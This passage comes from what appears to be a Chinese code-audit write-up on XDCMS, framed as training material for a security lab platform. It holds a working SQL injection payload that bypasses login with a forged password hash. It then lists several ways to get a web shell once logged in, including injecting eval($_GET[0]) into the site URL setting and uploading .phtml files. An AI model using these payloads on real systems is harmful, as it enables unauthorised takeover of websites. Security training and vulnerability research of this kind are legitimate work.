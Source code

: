 *   查询数据库里 username 为我们输入的账号的用户
    
*   取出第一条结果的 encrypt 字段，和我们输入的密码一起作为参数，调用`password`函数
    
*   将函数加密的结果与查询结果比对，若一致则登录成功。
    

那么我们的利用逻辑就很清晰了，利用注入控制 password 字段和 encrypt 字段，使得`$rs['password']==password($_POST['password'],$rs['encrypt'])`。

我们把 password 函数拉出来，计算 password('123456','1') 作为我们修改的 password，encrypt 为 1，然后我们输入 123456 便成功登录。

构造的 payload 如下

`username=q'union selselectect 1,2,'c6c6e122d028f5e37f845c8660374b78' password,'1' encrypt,5,6,7,8,9,10#&password=123456&verifycode=&button=`

我们测试一下

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdpEXqgjwxd5mkXbA6RqVfMhMQ1QFZqJbtVSziaIdpWBr61mquicNhbD8zDhM6DVGuhic6EIdwmP3oDw/640?wx_fmt=png)

可以看到我们成功登录了。  

登录以后，XDCMS 就是个任你揉捏的面团了，我们很随便地找到一万种拿 shell 方法。

### 写配置文件 getshell 的方法拿到 shell。

后台 -> 系统设置 -> 网页设置 -> 基本信息

```
$cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
            $cmsurl="<?php\n define('CMS_URL','".$info['siteurl']."');\n define('TP_FOLDER','".$info['template']."');\n define('TP_CACHE',".$info['caching'].");\n?>";
            creat_inc($cms,$cmsurl);
```

设置 siteurl 为`http://127.0.0.1/');eval($_GET[0]);`即可。

### 设置允许上传后缀拿 shell

后台 -> 系统设置 -> 网页设置 -> 上传设置

添加 phtml（php 默认在黑名单），上传 phtml 拿到 shell

### 模板管理写配置拿 shell

后台 -> 系统设置 -> 栏目管理 -> 管理栏目，这里每个变量都可以写，注意闭合语句减少对网站的破坏。

### ...

四、总结
----

我们经过本次审计分析了 XDCMS 工作流程，确定了 MVC 控制框架安全的可靠性，最后创新性地利用注入构造万能密码进入后台拿到设立了。总体难度不大，相信同志们都有所收获。

**命令注入漏洞的代码审计**

https://www.hetianlab.com/expc.do?ec=ECIDf80c-799d-4bd5-979c-475ff391351a&pk_campaign=weixin-wemedia#stu     

通过本节的学习，了解命令注入漏洞的原理，通过代码审计掌握挖掘命令注入漏洞的方法，了解命令注入漏洞产生的原因。

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdpEXqgjwxd5mkXbA6RqVfMjib6Lehc4B4mqQiaSlJAqZDlp8FsoQ4W4tSbiclA8cPRbicKVrsAalYq9w/640?wx_fmt=png)

更多靶场实操，点击下方 “  阅读原文 ”